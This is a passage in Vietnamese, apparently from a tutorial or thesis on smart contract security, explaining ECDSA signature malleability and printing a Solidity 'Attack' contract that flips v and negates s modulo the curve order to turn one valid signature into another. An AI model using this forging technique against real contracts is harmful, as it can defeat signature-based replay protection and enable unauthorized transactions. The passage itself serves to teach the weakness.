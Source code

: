Trong ví dụ trên, hàm `verify` băm giá trị `_messageHash` theo chuẩn được nêu trong EIP-191 @eip-191 rồi gọi hàm `recoverSigner` để khôi phục địa chỉ người ký từ giá trị băm và chữ ký.

Các dòng mã hợp ngữ trong hàm `recoverSigner` được dùng để tách giá trị `_sig` thành các giá trị $r$, $s$ và $v$. Với $v$ là giá trị giúp việc khôi phục địa chỉ người ký dễ dàng hơn. Nếu địa chỉ trả về từ hàm `ecrecover` khớp với đối số truyền vào tham số `_expectedSigner` của hàm `verify` thì chữ ký là hợp lệ.

Kẻ tấn công có thể xây dựng smart contract như sau:

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attack{

  function manipulateSignature(bytes memory signature) public pure returns(bytes memory) {
    (uint8 v, bytes32 r, bytes32 s) = splitSignature(signature);

    uint8 manipulatedV = v % 2 == 0 ? v - 1 : v + 1;
    uint256 manipulatedS = modNegS(uint256(s));
    bytes memory manipulatedSignature = abi.encodePacked(r, bytes32(manipulatedS), manipulatedV);

    return manipulatedSignature;
  }

  function splitSignature(bytes memory sig) public pure returns (uint8 v, bytes32 r, bytes32 s) {
    require(sig.length == 65, "Invalid signature length");
    assembly {
      r := mload(add(sig, 32))
      s := mload(add(sig, 64))
      v := byte(0, mload(add(sig, 96)))
    }
    if (v < 27) {
      v += 27;
    }
    require(v == 27 || v == 28, "Invalid signature v value");
  }

  function modNegS(uint256 s) public pure returns (uint256) {
    uint256 n = 0xfffffffffffffffffffffffffffffffebaaedce6af48a03bbfd25e8cd0364141;        
    return n - s;
  }

}
```

Có thể thấy, hàm `manipulateSignature` tách các thành phần $r$, $s$ và $v$ từ `signature` thông qua hàm `splitSignature`. Sau đó, nó chỉnh sửa giá trị của $v$ sao cho nếu $v$ là chẵn thì trừ đi 1 còn nếu $v$ là lẻ thì cộng thêm 1. Giá trị $s$ sẽ được chỉnh sửa thành $-s mod n$ (được tính thông qua hàm `modNegS`). Cuối cùng, ba giá trị $r$, $s$ và $v$ được ghép lại thành chữ ký thông qua hàm `abi.encodePacked`.

Như vậy, nếu kẻ tấn công biết được một chữ ký hợp lệ thì có thể dùng hàm `manipulateSignature` để tạo ra một chữ ký hợp lệ khác.
